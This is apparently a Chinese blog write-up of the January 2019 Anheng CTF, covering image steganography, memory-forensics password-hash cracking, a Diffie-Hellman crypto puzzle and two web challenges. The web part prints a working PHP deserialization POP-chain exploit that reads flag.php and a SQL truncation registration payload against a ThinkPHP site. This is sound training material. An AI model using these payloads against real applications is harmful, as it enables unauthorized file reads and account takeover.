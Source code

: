 ```yaml
---
title: 2019安恒1月
date: 2019-01-26 20:59:30
tags: writeup
categories:
 - 安恒月赛
 - 2019年
 - 2019年1月
---
```

安恒月赛

# MISC

## 赢战2019

binwalk图片发现里边存在另一张图，foremost出来，是一张二维码，扫描发现flag不在二维码之中，之后用stegsolve查看找到flag。


## memory

内存取证题，直接利用kali的volatility开始做，菜鸡第一次接触内存取证也是学习了一波。。。
拿到题目，既然是要管理员密码，先查看下profile类型，得到类型是 XPSP2X86.

![2.1](https://gitee.com/M00yy/pic/raw/master/uPic/2.1.jpg)

查看存在的用户

![2.2](https://gitee.com/M00yy/pic/raw/master/uPic/2.2.jpg)

查看注册表
![2.3](/Users/m00yy/Downloads/bak/2019安恒1月/2.3.jpg)
dump出hash值，得到管理员用户的hash
![2.4](https://gitee.com/M00yy/pic/raw/master/uPic/2.4.jpg)
拿去破解得到明文密码是123456789
MD5之后是25f9e794323b453885f5181f1b624d0b，即为最终的flag

# CRYPTO



## Git it

自闭的密码题。。参考安全客的`(https://www.anquanke.com/post/id/170341#h3-5)`了解一波。。
题目中给的密钥交换和3个参数判断是Diffie-Hellman密钥交换算法,
A的密钥是17，B的密钥是31，素数p是37。所以根据算法是先求g
直接利用sagemath的函数求原根，得到
`g=2`
又由原理可以知道
`A = g^a mod p`
`B = g^b mod p`
所以接下来的目的就是求a,b
所给的数都比较小，直接在线网站求`https://www.alpertron.com.ar/DILOG.HTM`
可以求出
`a = 7`
`b = 9`
最后根据 `key = g^(b * a) mod p`可以求出共享密钥为6
再根据题目给出的`password = hashlib.md5("(3,6,35)").hexdigest()[0:16]`写出python脚本解出password
`a7ece9d133c9ec03`
对于密文猜就完事了(看头??!)。。尝试到DES加密可以解出flag{8598544ba1a5713b1de04d3f0c41eb71}
![4.1](https://gitee.com/M00yy/pic/raw/master/uPic/4.1.jpg)

# WEB

## babygo

```php
<?php  
@error_reporting(1); 
include 'flag.php';
class baby 
{   
    protected $skyobj;  
    public $aaa;
    public $bbb;
    function __construct() 
    {      
        $this->skyobj = new sec;
    }  
    function __toString()      
    {          
        if (isset($this->skyobj))  
            return $this->skyobj->read();      
    }  
}  

class cool 
{    
    public $filename;     
    public $nice;
    public $amzing; 
    function read()      
    {   
        $this->nice = unserialize($this->amzing);
        $this->nice->aaa = $sth;
        if($this->nice->aaa === $this->nice->bbb)
        {
            $file = "./{$this->filename}";        
            if (file_get_contents($file))         
            {              
                return file_get_contents($file); 
            }  
            else 
            { 
                return "you must be joking!"; 
            }    
        }
    }  
}  
  
class sec 
{  
    function read()     
    {          
        return "it's so sec~~";      
    }  
}  

if (isset($_GET['data']))  
{ 
    $Input_data = unserialize($_GET['data']);
    echo $Input_data; 
} 
else 
{ 
    highlight_file("./index.php"); 
} 
?>
```

阅读代码发现是反序列化pop链构造的题目，最终只需保证$this->nice->aaa === $this->nice->bbb成立即可。
sec类中read()函数直接返回了'一句话'，cool类中read()函数执行的内容是关键，baby类中调用了sec，找到其中同名的函数将类的属性和敏感函数的属性联系起来，构造出相应的poc即可。
不直接构造amazing，所以实例化后this->nice是空的，后边的也就都是空的，所以if就绕过了。

```php
<?php  
@error_reporting(1); 
class baby 
{   
    protected $skyobj;  
    public $aaa;
    public $bbb;
    function __construct() 
    {      
        $this->skyobj = new cool;
    }  
    function __toString()      
    {          
        if (isset($this->skyobj))  
            return $this->skyobj->read();      
    }  
}  
 
class cool 
{    
    public $filename = "flag.php";     
    public $nice;
    public $amzing; 
    function read()      
    {   
        $this->nice = unserialize($this->amzing);
        $this->nice->aaa = $sth;
        if($this->nice->aaa === $this->nice->bbb)
        {
            $file = "./{$this->filename}";        
            if (file_get_contents($file))         
            {              
                return file_get_contents($file); 
            }  
            else 
            { 
                return "you must be joking!"; 
            }    
        }
    }  
}  
  
echo urlencode(serialize(new baby()));
?>
```

给data传值可以得到flag
![5.1](https://gitee.com/M00yy/pic/raw/master/uPic/5.1.jpg)

## Simple php

打开网站之后发现炫酷但是没有东西，最后找到/robots.txt看到

```
User-agent: *

Disallow: /ebooks
Disallow: /admin
Disallow: /xhtml/?
Disallow: /center
```

尝试 http://101.71.29.5:10010/admin
发现了登陆和注册得地方，开始觉得有点搞头。。。随便注册一个出错之后发现是thinkphp3.2.3版本的站，抱着试试看的心态查一下相关的漏洞，发现可能存在SQL注入漏洞
但是得寻找到注入点，之后在尝试的过程之中发现是sql约束攻击
注册一个

```
    username = admin                                         1
    password = 11111111
```

登陆之后发现一个搜索框，之后发现复现的环境坏了。。


参考
https://www.anquanke.com/post/id/170341 
https://www.cnblogs.com/pureqh/p/10327122.html
https://www.cnblogs.com/iamstudy/articles/php_object_injection_pop_chain.html